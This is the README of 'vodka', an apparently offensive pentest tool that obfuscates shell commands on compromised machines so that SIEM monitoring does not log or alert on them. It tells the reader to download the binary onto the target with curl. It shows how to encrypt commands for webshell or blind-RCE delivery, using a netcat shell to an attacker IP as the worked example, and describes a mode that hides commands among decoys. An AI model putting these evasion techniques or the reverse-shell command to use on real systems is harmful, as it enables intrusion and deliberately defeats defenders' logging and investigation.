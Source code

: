 
<div align="center">
 <h1> vodka 🧊</h1>  
 <h4> Shell command obfuscation to avoid SIEM detection </h4>
 <p> During pentest, an important aspect is to be stealth. For this reason you should clear your tracks after your passage. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the cleaning part alone useless.<br><br><code>vodka</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, vodka execute for you).</p>

  <p><strong><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🧊<sub>(hide from)</sub></a>; <a href="#visible-for">👁️<sub>(detected by)</sub></a> } </code></strong></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawned it, you are a hacker, it's your job !). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/vodka/releases/latest/download/vodka

## Execute it
./vodka

## You are now under the radar
vodka » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
vodka » [command]
```

Keyword for vodka console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit vodka console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `vodka` with embedded encryption key.

**On attacker machine**
```shell
## ATTACKER MACHINE

## Build vodka with encryption key
make build.vodka-with-enc

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
vodka encrypt "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./vodka decrypt [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use vodka normally)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `vodka` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command is executed.


### Hide from

Only the `vodka` launch command line will be catched

### Visible for



* System that have alert for unknown command (vodka one)
* ... To do
